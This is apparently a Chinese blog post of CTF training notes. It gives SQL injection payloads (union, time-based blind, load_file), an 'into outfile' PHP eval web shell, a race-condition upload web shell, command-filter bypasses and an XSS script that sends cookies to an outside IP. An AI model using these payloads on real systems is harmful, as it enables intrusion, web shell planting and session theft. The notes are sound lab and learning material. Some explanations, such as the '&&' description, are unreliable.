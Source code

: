 ```yaml
---
title: 【网络安全3x03】CTF8月竞赛学习----------厂家培训-8.2
date: 2020-08-02 19:55:08
tags: [网络安全]
---
```


厂家赛前培训。一些题型的坑点讲解。

SQL注入、文件上传、文件包含、代码执行、XSS注入。

<!-- more -->

# SQL注入

## 字符型注入

1. 判断类型：

``` sql
1%'
```

2. 猜列数：

``` sql
1%' order by 3 #
1%' order by 4 #
```

3. 获取数据库名称:

``` sql
1%' union select 1,database() #
```

4. 本地flag文件：

``` sql
1%' union select 1,load_file("/flag"), 3 #
```

## 时间盲注

常见注释符：`#`、`--+`、`%23`。

``` sql
http://192.167.0.27/sqli-labs/Less-5/?id=

http://192.167.0.27/sqli-labs/Less-5/?id=1'--+
http://192.167.0.27/sqli-labs/Less-5/?id=1'#
http://192.167.0.27/sqli-labs/Less-5/?id=1'%23

#猜长度，F12看network，猜对了延迟5秒返回包，猜错了秒回
http://192.167.0.27/sqli-labs/Less-5/?id=1' and if(length(database())=1,sleep(5),1) --+
http://192.167.0.27/sqli-labs/Less-5/?id=1' and if(length(database())=8,sleep(5),1) --+
```

sql注入点可以直接写一个反弹shell：

``` php
192.167.0.1:8801/show.php?id=33.1 union select 1,2,3,4,5,6,7,8,9,10,'<?php @eval($_POST[pp]);?>',12,13,14,15 into outfile "/var/www/html/gt.php"
```

# 文件上传

## upload-labs Pass18 时间竞争

上传`123.php`，内容为生成下面的反弹shell，burp里intruder开500线程重复攻击，浏览器不断刷新访问还未被删除的`123.php`，直至反弹shell创建成功：

``` php
<?php fputs(fopen('gt.php', 'w'),'<?php @eval($_POST[cmd]);?>');?>
```

# 文件包含

代码审计中发现有`include`函数的程序时需注意文件包含漏洞：

``` php
<?php
	if($_GET['file'])
	{
		include($_GET['file']);
	}
?>
```
文件包含访问路径为：
http://192.167.0.27/upload-labs/upload/i.php?file=4717.png


# 命令执行

linux命令三种中断符：

```  bash
|| #前面的命令正确即中断
; #全部命令均执行
&& #全部命令均执行
```

绕过命令过滤方式：
1. 加转义符`\`
2. 使用通配符`?`、`*`(如果存在多个符合通配的文件名则无效)

``` bash
#原命令
cat /flag.txt

#加转义绕过过滤
\c\a\t \/\f\l\a\g\.\t\x\t

#使用通配符
cat /f?ag.txt   # ?单字符
cat /f*g.txt    # *多字符
```

# XSS注入

反弹管理员cookie：

``` bash
<script>
	var img = document.createElement("img");
	img.src = "http://192.167.0.233:4444/a?" + escape(document.cookie);
</script>
```